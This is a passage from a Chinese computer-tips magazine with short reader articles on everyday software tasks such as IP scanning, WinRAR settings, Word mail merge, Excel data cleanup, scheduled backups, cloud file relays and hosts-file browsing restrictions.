在局域网的任意一台电脑上，运行IPSeizer程序打开其界面，分别在“Start IP”和“End IP”文本框里输入需要检测的地址段，如192.168.0.1和192.168.0.255，然后单击工具栏中的“Start”按钮，稍等一会儿，已被使用的IP地址及其主机名称、网址地址和工作组等信息，就被检测出来显示在界面的列表中。知道了正使用的IP地址后，就可以得到未使用的IP地址了，方便地为新增电脑设置好IP地址。最后再使用IPSeizer检测一次，点击工具栏上的“Save”按钮，将检测结果保存成TXT文档，打印出来，方便IP管理时使用。

(文/天下无毒)

# 让WinRAR解压更快一些

从网上下载的大个头压缩包文件的解压总是一件费时的事情，那么如何在WinRAR中挖掘潜力提高解压的速度呢？

打开WinRAR，单击“选项→设置”，选择“路径”选项卡，将“临时文件解压的文件夹”下的默认选项“C:\Users\ADMINI~1\AppData\Local\Temp\”改为“\”，这样就会明显加快解压速度，因为解压的源文件往往不在系统盘，先解压至默认的文件夹，再转移到目标文件夹，然后删除临时文件自然费时了。

一个404MB的文件在设置前解压用时19秒，而在设置后只用时10秒，可见速度提高比较明显。

(文/段晓东)

# 账号密码U盘带 丢失也不怕

手里积攒了不少网站、论坛的账号密码，时间久了难免忘记，记在纸上担心被人看到，不记则经常遗忘。用通用密码又不安全，有没有一种两全其美的办法呢？

二维码相信大家都不陌生，通常在产品包装上那种印有三个“回”字的图案就是二维码，现在火车票上也都印制了二维码，方便旅客辨别车票真伪。今天，我们就用二维码来记录我们的密码信息。

要制作二维码很简单，只需使用专用制作软件Psytecqrcodeeditor即可完成(下载地址：http://www.onlinedown.net/soft/58791.htm)。

- ①运行该软件，点击主界面下方的“文本信息”，输入需要保存的账号密码信息，在“密码”栏中输入一个密码（这个密码要牢记，否则之后无法读取信息），并勾选“加密”，最后点击“文件→保存”，将生成的二维码保存为bmp或jpg格式的图像，并复制到U盘就可以随身携带了。
- ②当需要提取密码的时候，再次运行Psytecqrcodeeditor，单击“文件→打开”选择二维码图像文件，会自动提示输入密码，输入正确的密码后，就可以看到刚才保存的信息。这样，即使U盘不慎丢失，由于不知道密码，别人也无法读取我们保存的信息。

小提示：
由于我们对二维码进行了加密，所以手机上的识别软件，如QR Droid等无法正确识别二维码上的信息，确保我们的密码安全。不过这里还是要提醒大家，为防止意外，对于网银等重要密码，最好不要保存在二维码里。

QR Code码是由日本Denso公司于1994年9月研制的一种矩阵二维码符号，它具有一维条码及其它二维条码所具有的信息容量大、可靠性高、可表示汉字及图像多种文字信息、保密防伪性强等优点。

(文/前尘忆梦)

# 照片上传下载 只需一拖一键

喜欢外出旅游，经常与朋友交换旅途中拍摄的照片，通过QQ或E-mail传输速度慢且不方便，而网络上的各种相册又大多限制图片的分辨率。利用QQ影像可将图片临时存储在中转站，无论是共享或下载，都相当方便。

运行QQ影像，激活“图片中转站”窗格，找到存储旅游照片的文件夹，只要文件夹中的照片数量在1500张以内，照片文件的体积不超过2GB，那么可以选择文件夹或具体的文件，按住鼠标左键不放，直接拖曳到图片中转站就可以了，稍等片刻即可完成上传。当然也可以右击选择“上传到图片中转站”。保存在中转站中的图片，完全没有分辨率的限制。

需要下载时，你可以在任意一台计算机上登录QQ影像，打开图片中转站，点击图片中转站内图片文件夹对应的“下载”按钮即可。默认的存储时间为7天，请在限定时间之内下载。

(文/王志军)

# 百千份邀请函半小时内发出

工作中，有时可能需要给很多不同的客户发统一格式的邀请函、感谢信等。面对庞大的客户信息，难道要一个一个复制粘贴吗？能保证不贴错贴漏吗？不用烦，借助Word的“邮件合并”，我们就能快速准确地完成这些任务。

还有半小时就下班啦！这时，领导却“亲切”地朝我走来。
“本本，有个紧急任务，周五要开研讨会，今晚得把全部邀请函弄出来。嗯，也不是很多，大概四百来封吧！”
我差点晕过去！
“这样吧，”大概注意到我的失态，领导打了个哈哈，“说，你今晚只需把电子文件做好发给我就行，打印和传真的工作，明天我会安排其他人做。今晚辛苦点加加班，明天让你补休两个小时，邀请函格式和嘉宾名单，我已发你邮箱了。”
领导走了，留下我对着两个文件发愁：Word格式的邀请函，Excel格式的嘉宾名单。

418份邀请函！此时，我脑海中浮现两个画面：一个，是我像搬运工一样，一个一个地复制粘贴，不时还回头去检查，看有没贴漏贴错；另一个，是妈妈不停地看时钟，焦急地等我回家，唉，对工作是三分无奈，对妈妈有十分愧疚。

“本本，别发愁，”小余好心地安慰我，“听说过‘邮件合并’没？我以前见同事用过的，上千封的感谢信，她半小时就搞定了。”
“真的？太谢谢你啦！”有时，同事小小一句话，就帮了你一个大忙！

我赶紧上网搜索学习“邮件合并”。果然，用“邮件合并”来处理，大大提高了工作效率！

首先，打开“邀请函”文件，单击“工具→信函与邮件→邮件合并”，进入“邮件合并向导”。第一步选择文档类型，保持默认选项“信函”，单击“下一步：正在启动文档”。

第二步选择开始文档，保持默认选项“使用当前文档”，单击“下一步：选取收件人”。

第三步选择收件人，由于有现成的文件“嘉宾名单”，所以保持默认选项“使用现有列表”，并单击“浏览”，在弹出的“选取数据源”对话框中选择“嘉宾名单”文件并打开。

此时弹出“选择表格”对话框，因为数据存放在“嘉宾名单”工作表中，因此选中“嘉宾名单”表，同时选中“数据首行包含列标题”，单击“确定”。

在弹出的“邮件合并收件人”对话框中，选择要合并到“邀请函”中的嘉宾，这里保持默认状态“全选”，确定后会返回“邮件合并向导”第三步，单击“下一步：撰写信函”。

第四步撰写信函，这是邮件合并的关键。把光标放在“邀请函”中“单位：”的右方，单击任务窗格中的“其他项目”。

在打开的“插入合并域”对话框中，“数据库域”被默认选中，下方的列表中出现了“嘉宾名单”中的字段“单位”和“姓名”，选中“单位”字段，单击“插入→关闭”，“单位”字段就插入到“邀请函”文档中。然后用同样的方法把“姓名”字段插入到“邀请函”中。

第五步预览信函，刚才带有{}符号的字段变成了“嘉宾名单”中第一条记录的具体内容。单击邮件合并向导中的“<”或“>”按钮，可以浏览生成的其他嘉宾的邀请函，然后单击“下一步：完成合并”。

单击“编辑个人信函”，在打开的“合并到新文档”窗口中选择“全部”并确定。

此时，Word自动生成一个名为“字母1”的文档（把文件另存即可），418份邀请函都同时出现在这个新的文档中，每一份邀请函占独立的一页，不用点击“<”或“>”按钮也可以全部看到了，如果需要的话，您还可以对任何一份邀请函进行编辑。

至此，大功告成！整个操作过程前后花了不到半小时！我归心似箭，毫不迟疑地把文件发了出去！这时，领导突然从办公室探出头来（真是个工作狂呀！居然还没走）：“本本，这么快就做完啦？”语气中充满怀疑。

我把“邮件合并”的神奇跟领导大概说了一下，他这才眉开眼笑，说：“知识就是力量呀！行，明天还给你补休！”

> 小知识：
使用Word的“邮件合并”功能，通常需要两样东西：一个主文档（如本例中的“邀请函”），一个数据源（如本例中Excel格式的“嘉宾名单”）。主文档通常为Word格式，包含固定不变的内容；数据源为主文档提供可变的信息，它可以是Excel表，也可以是Access数据表、Outlook通讯录/联系人信息或特殊格式的Word文档。

小提示：
在Word 2007和Word 2010中，要使用“邮件合并”功能，请单击“邮件→开始邮件合并”，后面操作类似。

(文/沈慧)

# 让外链贴图现身为我所用

由于工作的关系，我经常要通过各种论坛、博客下载我所需要的图文资料，有时会碰到这样一些网页，直接将其内容复制粘贴到Word 2007文档中，其中包含的图片都会自动变成同样的无用贴图。如果执行“选择性粘贴”命令，无论选择“无格式文本”还是“无格式的Unicode文本”选项，都只能粘贴文字而不能保留图片。

依次复制网页上的贴图，执行“选择性粘贴→与设备无关的位图”命令，是可以逐个替换这些图片，但是操作过程实在有点麻烦。

其实，我们可以先复制这些网文，然后打开WPS文字，执行“粘贴”命令，先将网页文字和受限的贴图正常粘贴下来，然后再将这些网文内容复制粘贴到原来的Word 2007窗口中，就可以正常显示这些受限的网页贴图了。

此外，还有一种采用Word域代码实现的外链图片，例如我最近参加的江苏省师陶杯论文比赛，要求下载统一的论文封面，其中包含一个Logo图片，在联网的电脑上可以正常显示，反之则无法显示。

通过Word 2007打开论文封面，选中该外链图片，按Alt+F9组合键，可以在域代码和图片之间进行切换。复制正常显示的图片，执行“选择性粘贴→图片”命令，可以将该外链图片转换为普通图片，再到没有联网的电脑上就可以正常显示和打印了。

> 小提示：
域是WORD支持的一种特殊命令体系，它由花括号、域名（域代码）及选项开关构成。域代码类似于公式，域选项开关是特殊指令，在域中可触发特定的操作。

(文/姚文连)

# 工作表守规矩 数据库不出错

我们平常进行各类考试的报名，一般都是通过Excel等电子表格软件进行操作，而这些报名信息经过逐级汇总之后，有时会达到几万甚至几十万的数据记录，这时往往就需要通过各种数据库软件来汇总管理这些数据。

而数据库不同于Excel表格，对数据有效性检查较为严格，我就曾经因为报名数据检查不认真受到领导的批评，希望我用教训换回的经验，能够为大家的报名工作出点力。

## 一、以0开头的各种序号

大家知道，在单元格中直接输入首位为0的数字，它会自动将前面的0省略，只显示非0开始的数字。在实际报名工作中，我们一般会采用以下两种解决方法：一是先输入'，然后再输入学号；二是先右击执行“设置单元格格式→数字→文本”命令，将单元格设置为文本格式，然后再输入学号。

如果你的基本数据来自不同的班级或部门，这两种方法在你汇总的工作表中可能同时存在，而以'开头的学号是无法直接导入数据库的，会出现类型不匹配的错误提示。因此在上报信息之前，应该将它们全部删除。

这里以Excel 2007为例，具体操作方法如下：选中并复制可能包含'的数据单元，在工作表的其它单元格处，右击执行“选择性粘贴→数值”命令，'将会被全部删除，然后再将这部分数据复制粘贴到原来位置即可。

## 二、两个字的学生姓名

姓名输入则是另外一个常常会影响到数据库导入的问题，例如C2单元格中的“张口龙”，为了格式的工整或显示的美观，有的人会在两个字的姓名中间插入空格，但是对于计算机而言，“张龙”与“张口龙”就是两个完全不同的姓名符号。

如果我们不小心将含有空格的姓名导入数据库中，虽然打印出来的名字看不出什么问题，但是当你需要在数据库中查询修改信息时，你会发现根本查不到“张龙”这个人。

为了避免出现这种情况，原始报名工作表在导入数据库之前，往往都要进行空格删除操作。具体操作方法如下：选中可能包含多余空格的数据区域，同时按下Ctrl+F键，打开“查找和替换”对话框，在“查找内容”处输入一个半角空格，在“替换为”处不输入任何内容，单击“全部替换”，即可完成所有多余空格的删除操作。

## 三、数据有效范围检查

某些特殊数据类型的有效范围问题，也会影响到数据库的导入工作，例如，高中学生的年龄一般都在15岁与25岁之间，数据库中的对应项一般都会有数据有效范围设置，为了将类似的导入错误消灭在萌芽状态，我们可以在Excel中输入初始报名信息时，就对相应的数据区域设置条件格式，一旦出现超出有效范围的数字，就会立即显示特殊的样式，如D4单元格的118，便于及时发现和修改。

具体操作方法如下：选中想要设置条件格式的数据区域，执行“开始→条件格式→突出显示单元格规则→其它规则”命令，打开“新建格式规则”对话框，将未介于15和25之间的单元格的值设置为突出的显示效果，例如红色、加粗、加底纹等。还有出生日期等信息，也需要根据数据采集的相关格式要求进行操作，否则也可能在导入数据库时出现问题。

小提示：
我们在平时使用Excel进行信息采集的过程中，应该养成规范的数据录入习惯，严格按照各种数据采集规格进行相关操作，唯有如此，才能降低工作表导入到数据库的难度，为别人节省数据导入汇总的时间，方便别人终究会方便自己。

(文/姚文连)

# 晚会节目伴奏投影统统搞定

新学期伊始，班里选定诗朗诵来参加学校的国庆晚会。选好了诗歌、演员和伴奏，可伴奏的曲子有点偏长，还得裁剪。而找专业的制作要花钱。节目的美女编导乐乐这可是一点也乐不起来啦！酷爱电脑的小单可不愿放弃机会，便自告奋勇承担起伴奏曲的制作。

## 伴奏曲的制作

制作伴奏曲的方法和软件不少，但专业的方法烦杂，不好用！那就用这款“影音工具酷”，在百度上搜一下就能下载，经过简单安装和注册就可使用。它的音频工具可以转换格式、从CD或DVD中提取歌曲、截取和合并等。伴奏曲的制作要在节目编导的指挥下，完成曲目的长短、低高潮的控制等等，有时制作完第一遍曲目，当节目（朗诵）内容发生变化，你的曲目也要重新配合制作，所以要保存好原声曲目，不要轻易删除。原声曲目有时是一首，或者是二首，有时要分步拿一段一段地截取，最后再把各段音乐素材合成在一起。要注意各段音乐素材文件保存的路径。

## 给节目单投影截取视频

学长哥哥朗朗接下了用PPT制作晚会节目单的活，要和晚会同步现场投影播放。虽然PPT做得挺美的，还有那叫人眼前一亮的小特效动画！可那些配合节目背景的电影素材的视频可不好伺候，网上下载的清晰度太低，在电脑上看还凑合，可要是投到大屏幕上肯定没法看！在学校的图书馆好不容易淘到老电影正版的“俏佳人”VCD碟子，可拷到电脑里后，截取可就麻烦了，相关的软件不识别，也就没法编辑。用原始的方法视频采集，那工作量可就大了，还要转换格式。还是用“影音工具酷”吧！选择“视频工具”中的“视频截取”，把碟片放入电脑，轻松几步就完成了相关视频的截取。

经过实践我体会到，“影音工具酷”也不是万能的，它不能用图片制作视频格式（DVD）的电子相册，它的视频合成就是它的软肋，不过在视频后期编辑时，用非线性编辑正好能发挥视频的合成、编辑和特效等功能。

(文/张国武)

# PDF杂志取我所需 传与朋友分享

网友“蓝玫瑰”QQ空间里的文字清新淡雅，可惜有时与使用的信纸不匹配，影响了视觉效果，于是我想把从网上下载的《电脑爱好者》第9期的文章“不是黄钻会员也享用免费信纸”（PDF格式）发给她借鉴一下。可是如果把整本PDF杂志都发给她，不仅发送时间长而且占存储空间，还是只把这篇文章单独截取出来发给她吧。

## 我的体会

这件事情启发我改变了以前下载PDF杂志、书籍后整个放到硬盘里的习惯，因为并不是每本PDF杂志、书籍中所有的文章内容我都感兴趣，因此如今下载之后只把所关注的文章提取出来保存，然后将PDF杂志、书籍删除，这样给我的硬盘间接起到了瘦身的作用。遗憾的是，通常PDF杂志、书籍转换成的Word文档是不能编辑的，因为它是以一个图片的形式存在。而我发现，在知网等网站下载的PDF格式的文章转换为Word文档后，是可以进行编辑的，非常方便我将同一类的文章整理到一个Word文档中，待需要时方便查看。

网上能找到一些PDF编辑器或分割器，但有些需要付费，有些下载后不能用，所以我用了免费的福昕阅读器（下载地址：http://www.fuxinsoftware.com.cn/）和WPS来实现如果对方电脑中没有安装PDF阅读器，还可以用Hanvon PDF Converter（下载地址：http://www.hw99.com）截取并转换成Rtf格式，方便他们用Word来阅读。

(文/李海莹)

# 别让迅雷7默认上传拖慢了网速

我们单位是采用局域网方式接入互联网，近来浏览网页速度突然变慢了，可是使用迅雷下载资源的速度没有受到影响。开始以为中了ARP病毒，彻底查杀后仍无效果。无意间发现迅雷7在没有下载任何资源时，上传速度高达1MB/s左右，会不会是同事们都升级为新版迅雷7的原因呀？

看来就是迅雷7的上传将网络速度拖慢了。以前迅雷5在设置中默认最大上传速度为10KB/s，一般无需修改该设置，也不用担心上传速度过大而影响网页浏览速度。而迅雷7最大上传速度竟然默认为1024KB/s，难怪上传速度如此之猛。原因找到，处理起来就简单多了。在“配置面板”的“网络设置”中，将“下载模式”选择为“自定义模式”，将“最大上传速度”设置为“10KB/s”。这样就可以放心下载资源，下载后无需特意关闭迅雷7程序，也不会再影响网络速度了。

如果感觉上传速度还有点大，可用360安全卫士来限制，进入“功能大全”界面，点选“流量监控器”，在“360流量监控”窗口的列表中找到“ThunderPlatform.exe”和“Thunder.exe”这两个程序，分别点击“管理”列的扳手按钮，选择“一键限制上传速度”→1KB/s适合玩网络游戏时限到其他程序，保证最大上网带宽，即可将上传速度限制到1KB/s左右，这下就更安心了。

(文/青山漫步)

# 自动定时 备份压缩一次搞定

单位的网站上线了，为了确保安全，需要隔三差五备份网站数据。平时都是手动来操作，不但要备份，还需要压缩以节省空间，但是好多时候都因工作太忙而忘记备份。为了给自己减负，我找来了WinRarAuto这款小工具，它完美地将WinRAR和定时器结合起来，设定好计划任务之后，就能按设定任务自动压缩指定文件夹里的内容，也不用担心忘记备份了。

确保电脑上已安装有WinRAR压缩软件，下载WinRarAuto 1.3绿色版，解压后运行“绿化.bat”批处理文件，然后运行“WinRarAuto.exe”程序打开主界面（下载地址：http://www.pc6.com/softview/SoftView_52958.html）。“压缩时间”后设置具体的压缩备份时间，点击“设置间隔时间”，在弹出的“间隔执行”对话框的“间隔选择”中选择“天”，再设置“每3天执行一次”，勾选“无限循环”，即设置为每隔3天自动执行一次压缩动作。在“名称”后输入压缩文件名，在“添加要压缩的文件或文件夹”下点击“目录”选择网站文件夹，在“压缩到此路径”下点击“目录”选择备份位置，勾选“包含路径”，“后台压缩”，“以当前日期重命名”项，其它参数采用默认项，确定后就添加好了自动备份压缩任务。点击“查看”按钮可查看添加的自动压缩备份任务，无误后，在空白处点击鼠标右键选择“选项”，在出现的“设置”对话框中勾选“随机启动”，点击“保存”让软件随电脑启动而运行。这样设置后，一到设定时间，软件就会自动对网站进行压缩备份。如果哪天网站出现问题时，可找到按日期压缩备份的文件，将其解压恢复即可让网站正常运行了，省时又省心。该软件支持添加多个定时压缩任务，还支持压缩后删除文件、压缩后放入回收站、锁定压缩文件、压缩时给压缩包设置密码、锁定文件、创建自解压缩等功能。

(文/青山绿水)

# 下载要我等 Chrome说没可能

小容经常到一些“非主流”的网盘下载东西，总是会弹出一个等待30秒的页面，只有过了30秒才能跳到真实的网址下载。真的要等吗？不用的，同事小淑极推荐用Chrome，并教了一招，跳开等待页面，直接打开下载地址。刚好小容要下载这个文件，看看是如何跳过等待的吧。

http://yunfile.com/file/mrk/wong/6e9e8a63/jseessionid=A029F0459853734DC7628B81026D1C

1点击普通下载，会在下面出现此提示

2这时右键点击跳动的数字，选择“审查元素”

3没带，就是这里，右键选择Edit text，把此处的数字改成1就可以了，然后网页就会跳到下载的页面，就可以下载了啊。

(文/彭家进)

# 图片/PDF/视频上的文字一网“抓”尽

学校最近搞宣传，需要做很多材料，而许多文字需要从图片、PDF文档甚至视频中获得。有的还是英文资料，现在要把它们提取出来，变成可编辑的中文。通常找一款文字识别软件，一款PDF转TXT软件，一款翻译软件也能完成。视频中的文字再手工输入，但这需要安装多款软件。而“超级图像文本转换软件”（下载地址：http://u.115.com/file/aq2mcn6d）可以完成上述所有工作，虽然软件个头较大，达144MB，但不必安装，功能齐全，是其他软件不能比的。

## 能看到的文字就能抓

对于图片中的文字，PDF中的文字，用它来抓取，“简直就是小菜一碟，我们以抓取PDF中的文字为例，看看抓取过程和抓取正确率。

1. 打开PDF文档，鼠标移动到软件悬浮窗口，弹出工作菜单，单击“慧视屏幕”，指针变为“+”字状，然后在PDF文档中框选出抓取文字范围，这里特地选择一段背景为黑色的文字，框选后，弹出“屏幕识别”对话框，选择“文字”后“确定”，开始转换。转换速度很快，转换完成后，自动打开记事本，识别率为百分之百。
2. 识别图片和PDF中的文字不算什么，该软件还能抓取视频播放窗口中的文字！播放视频，同样框选视频播放窗口的文字区域，只不过在“屏幕识别”中还要勾选“视频识别”，单击“识别”后，即可抓取播放画面中的文字。

> 小提示：
经测试，字幕中的文字识别率较高，视频中的文字识别率较低，好在学校中宣传文字大多出现在字幕中。

## 英语到中文 一拖即译

对于图片、PDF中的英文，可以直接提取为中文，使用也非常简单，单击“慧译”，选择“英→中”，指针变成“+”状时，框选图片或PDF中的英文，转换后即可在打开的记事本中看到对应的中文。另外，该软件识别图片中的表格也十分到位，识别前应该在“屏幕识别”中选择“表格”，大家不妨一试。

> （文/曹春华）

# 无法登录Gmail莫要慌 火狐插件帮咱找邮件

销售部的小周喜欢用Gmail邮箱收发和业务相关的各种电子邮件，前几天有客户给小周发来了代理公司产品的合作意向书，可是当时小周比较忙，把这件事情疏忽了，直到经理让小周将这份合作意向书整理好报上来，小周才想起来还没来得及处理该邮件。可是当小周心急火燎地想打开Gmail找到这封邮件时，Gmail却无法正常登录了，浏览器老是弹出“无法显示该页面”的提示，可能是这几天Gmail邮箱不是很稳定的缘故。

如何在不登录Gmail的情况下，快速查找邮件呢？这听起来有些怪异，不过有了Firefox浏览器和CloudMagic插件的协助，实现上述想法一点都不难。CloudMagic的强项在于可以同时对所有预设的Gmail邮箱进行搜索。

1. 在Firefox中安装好CloudMagic插件，点击菜单“工具→CloudMagic”，在CloudMagic邮件搜索页面右上部点击“Manage Accounts”链接，在邮箱管理页面中点击“Click here”链接，在新增邮箱页面中的“Email”栏中输入您的Gmail邮箱地址，在“Password”栏中输入邮箱密码，点击“Save”按钮保存即可。如果您有多个Gmail邮箱，可以在邮箱管理页面中点击“Add New Account”链接，添加更多的Gmail邮箱。
2. 小周只记得邮件附件的文件名中有“意向书”字样，进入CloudMagic邮件搜索页面，在搜索栏中输入“filename:意向书”，点击“Search”，搜索的目标是所有邮件的附件，只要其中包含“意向书”字样的文件，都逃不过CloudMagic的“眼睛”。
3. CloudMagic的搜索速度很快，小周很快就在搜索结果中看到了自己想要的邮件，点击该邮件，在弹出面板中显示该邮件的详细内容，包括邮件主题、发件人地址、邮件内容、附件内容等，小周直接点击其中的“意向书修改版.doc”文件链接，很快就将该文档下载到本机上，同时自动打开。

> 小提示：
CloudMagic使用的是关键字查询，注意在关键字后必须跟上冒号。本例中的“filename”关键字用于查找附件（例如“filename:doc”可以查找所有包含Doc文档的邮件附件），“from”关键字可以查找发件人信息（例如“from:jeny”表示搜索发件人地址中包含“jeny”的所有邮件），“to”关键字可以搜索收件人信息，“subject”关键字可以搜索邮件主题（例如“subject:谈判”可以搜索主题中包含“谈判”字样的所有邮件等），“body”关键字可以搜索邮件内容，“cc”关键字可以搜索抄送人信息，“bcc”关键字可以搜索密送地址等。
可以到http://www.cloudmagic.com/advanced_search_operators.php查阅相关的帮助信息。
下载地址：http://www.cloudmagic.com/downloads/cloudmagic_win_271.xpi。

> （文/郭建伟）

# 云端传输存储攻略 化解空间流量限制

网络免费空间是人们最常用的云端服务，但一般的免费空间都有上传空间和下载流量的限制，即使有一种没有限制的流量方式—BT传输方式，它的BT软件也会占用大量带宽，而且大多数国外网站免费空间的下载速度慢得如蜗牛一般，让人烦恼，而不同的方法有着不同的缺陷。

本文针对不同情况提出对应的解决方案，让云端传输存储不再有难题。

## 超大文档免费存储超简单

网上的免费空间非常多，大家都希望速度快，无限空间，免费，中文界面，稳定等，但这似乎不太可能，因为网站会难以维持下去。然而4shared这个国外非常有名的免费存储空间居然做到了，它支持繁体中文，最关键的是其免费空间达到10GB。

| 网站名称 | 4shared |
| --- | --- |
| 文档空间 | 10GB |
| 单档大小 | 2GB (2048MB) |
| 下载流量 | 不限制 |
| 保存期限 | 30天未登入账号，将删除所有档案 |
| 网站地址 | http://www.4shared-china.com/ |
| 特色 | 免费超大容量，中文界面，使用简单。 |

注册成为免费会员后登入，上传完成会询问你是“允许其他使用者搜寻您的档案”，确定后就会出现可下载的链接网址。

> 小提示：
如果想分享给朋友的单个文档超过6GB，甚至要求加密的视频资料，显然用4shared就不太方便了，用QQ直传的话不知道要传几天几夜才能收到。而http://fileai.com/网站可以对单个上传文档不受限，传输模式是点对点不经服务器，有较强的安全性，传输速度和稳定性比用QQ直接传输更好，我在6MB带宽上传4GB视频文件用了20分钟。

其使用简单，无需注册，需要安装Java，在网站首页单击“Send Files”，根据提示传输文档，上传完成后将transfer id或网址告诉对方，对方就可以接收你的资料了，注意在传输过程中传送方不能关闭当前的传送画面。

## 下载网盘无障碍

国外网盘虽然有一些免费的大容量空间，但很多国外网站受限太多，或下载次数只能是一次，或速度非常慢，而且每次都需要输入一大堆验证码。我发现fetch.io网站不仅是一个提供网盘文件离线下载的在线工具，而且还有一个特殊功能，可以作为国外网盘下载的中转站，把国外网盘的文档转到这里中转下载，所有的下载次数，下载时间以及速度的限制都会抵消，更重要的是，很多国外网盘站点是禁止访问的，有了这个fetch中转站，即便不翻墙，也能下载到你想要的东西。

| 网站名称 | fetch.io |
| --- | --- |
| 文档空间 | 2GB |
| 单档大小 | 1GB |
| 保存期限 | 永久 |
| 网站地址 | http://fetch.io/ |
| 特色 | 国外网盘下载中转站，无需翻墙下载国外网盘，避开烦人的广告和验证码。 |

打开网站并单击SIGNUP注册账号，输入信息后单击Register完成注册，网站会分配2GB免费空间给你，用于网盘文件的中转，如果你要建立一个文件夹，可以登录网站后单击Create Folder，输入文件夹名称（如“网络资料”），单击Create即可创建文件夹。

1. 登录网站后左上方有File（文件）、Fetch（提取）、Transfer（传输）、Account（账号）四个选项，切换到Fetch，开始提取其他网盘的资料，在下方“Step1: Choose Location”框中，单击文件夹图标，选择存储在网盘中的位置（也可在首页自行创建文件夹，便于分类组织），然后在“Step2: Paste Links”里，将Fetch.io支持的网盘下载链接粘贴进框中，若要批量下载链接，则可将链接地址每行粘贴一个，完成后单击Next进入下一步。
2. 系统开始自动识别链接，如果分析成功会打上钩，并显示出文件名称和大小，不能下载的链接后面会打上叉，标明“FILE NOT FOUND”。如果还需要下载网盘链接，再单击Fetch进入下一步则可以开始提取下载。
3. 经测试，网速为10M带宽时，其下载速度为7.65M/秒，远远高于原始链接的直接下载。提取任务都在服务器端执行，提取完成后可以将文件存放到云存储空间中。单击COMPLETED后面的绿色圆按钮，在打开的网页右侧单击Download this file可以下载到本地（速度也很不错），或单击Share this file分享给他人（需要对方也拥有Fetch.io账号，因为被分享的文件是保存在对方Fetch云存储空间里）。

> 小提示：
Fetch.io也支持BT文件的离线下载，它免费提供2GB的空间和4GB的流量，支持国外绝大多数网络硬盘下载，目前支持Bittorrent、Rapidshare、Megaupload、Mediafire、Hotfile、Netload.in、Filesonic、Easy-share、Megashares等国外网络硬盘，还可以在线播放下载的媒体文件，自动在线解压ZIP等压缩文件以浏览文件。
Fetch.io与众不同的思路在于其以在线流（Stream）提取→存放到云空间→随时供用户下载这一“中转站”式的思路，可以使我们无需再在本地电脑等待下载的完成，只需在Fetch.io中布置好文件提取任务，过一段时间再看，文件已经转存到你的云存储空间中，节约了很多下载时间。

> （文/朱莉）

## 管理QQ好友也用批处理

上淘宝购物多了，QQ中留下许多“掌柜”没有及时清理。传统方法只能手工将好友放入黑名单然后删除。其实如果登录http://web.qq.com，点击“好友管理”选项，然后批量选择需要删除的信息，点击删除即可。除此之外，还可以批量将好友信息移动到某个组群中，是不是很方便呢？

（文/叶勇）

## 把你的美食照片变得垂涎欲滴

不少朋友外出吃饭时喜欢随手拍下食物，放到社交网站或自己的博客上与朋友分享。但手机的拍照质量有限，加上餐厅的室内光线一般不太亮（为了营造柔和的进餐氛围），照片效果不会好到哪里去。名为FoodPic!的免费网站（http://foodpic.net）可以针对光源、白平衡欠佳等问题对美食照片进行优化，令人看后食欲大增。

点击“浏览”选择美食照片，然后单击Upload上传文件（只限JPEG格式），数十秒后会显示经过处理的美食照片。点击Download可下载该文件。点击Publish则可以发布照片，照片和描述文字全部保存到该网站的服务器上，并提供一个共享网址。也可点击Tweet This把美食照片发布到Twitter微博上。

其颜色修正功能颇为出色，用来处理美食照片很合适，不过对于手机拍照常见的模糊或“手抖”问题，它还是束手无策的。

（文/祥华）

## 让触控板变得更聪明

自从学校给每位教师发了一台联想B460电脑后，老陈一有空就摆弄起电脑。他说平时大多用外接USB鼠标，可操作键盘时就会无意中碰到触控板从而造成一些误动作，问我有没有什么方法关闭触控板。我告诉他用Fn+F6，可他试用后觉得每次都要手动操作很麻烦。看来帮人还得帮到底，经过一番摸索我终于找到了好的办法。

到联想官网下载相应触控板的ETDWare驱动进行安装，安装成功后，在“鼠标属性”里就会多出个“ELAN”选项卡，进入里面勾选“插入外置USB鼠标时禁用”，若不想在任务栏显示图标，再勾选“不再显示图标”，这时触控板就会根据外置USB鼠标的插入或拔出自动关闭或打开。

现在笔记本电脑的触控板基本上都支持ETDWare驱动，安装该驱动不仅能实现上述功能，还能实现多指触控。

（文/陈晓军）

## 一步到位完成双语搜索

喜欢“宅”电影的朋友经常会搜索一些最新的影片信息，而且希望获得来自国外的信息，这样就往往需要使用英文的关键词进行搜索。如果每次搜索前先翻译，既麻烦又浪费时间，而借助Google提供的“双语搜索建议”扩展，可以在搜索时获得两种语言的搜索建议，不需要再进行翻译操作。

运行Chrome浏览器，访问https://chrome.google.com/webstore/detail/onkpcdpadaabanhfloohacgoakkmnopgo?hl=zh-CN，按照提示完成“双语搜索建议”扩展的安装。使用Google搜索时会看到搜索框最右侧的双语建议按钮，鼠标单击可以关闭该功能，单击右侧的下拉箭头可以更换翻译语言（它提供了超过50种的语言翻译），或者也可以通过“工具→扩展程序”打开扩展管理页面进行更改。

例如搜索“变形金刚3”后可以看到中文、英文两种语言的搜索建议，两列都可以作为搜索词条来使用。如果没有看到双语的搜索建议，可以进入选项页面检查是否已经将双语搜索建议应用到“网页”。

安装“双语搜索建议”扩展之后，也可以从右键菜单中找到这个功能，选择网页中的关键词，右击选择“双语搜索建议（由Google提供）”，立即就可以直接进行双语搜索，这样找起影片来就方便多了。

（文/林丽华）

## 市面上价格太高拍照后淘宝寻找

逛超市时发现一个包包很漂亮，想买下它可又觉得价格太高，于是想到网上找找也许会便宜些，毕竟能省一点是一点。可是不知道包包的名字无法在淘宝搜索，而淘宝新推出的“图想”可以解决这个问题，它可以根据图片进行搜索。

先用手机给包包拍照，回到家将手机和电脑连接起来，然后登录淘宝网，点击主界面左侧列表中的“图想”，在弹出的界面中点击“从电脑上传图片”，在“请选择商品类目”中选择“女包/手提包”，点击“相似搜索”，在弹出的搜索结果界面中点击自己要找的包包，比较后就可以进行支付购买了。

（文/郭成贺）

## 让客户只能访问指定的网页

前段时间银行开了个客户体验区，本来是想让大家体验一下网银系统，可是很多用户却通过客户体验区的电脑上百度、微博等其他网页。有没有什么简单的办法在Windows 7下只能访问指定的网页呢？其实只要借助“Windows system32 drivers etc”目录下的Hosts文件就能轻松解决控制域名访问的问题。

首先，依次单击“网络链接状态→TCPIPV4→属性→首选DNS服务器”，将DNS服务器的IP地址设置为127.0.0.1，这时打开浏览器通过域名访问任何网页都是不行的（通过IP访问可以，不过大多数用户只记得域名，不会记得IP地址）。然后，修改hosts文件指定不被禁止的域名，比如添加61.135.169.125 www.baidu.com这一行的话，此时访问www.baidu.com时，就不是通过DNS服务器查询IP地址了，而是直接映射到61.135.169.125（注意：hosts文件不支持通配符）。

（文/陈晓军）

## 用PS的快捷方法

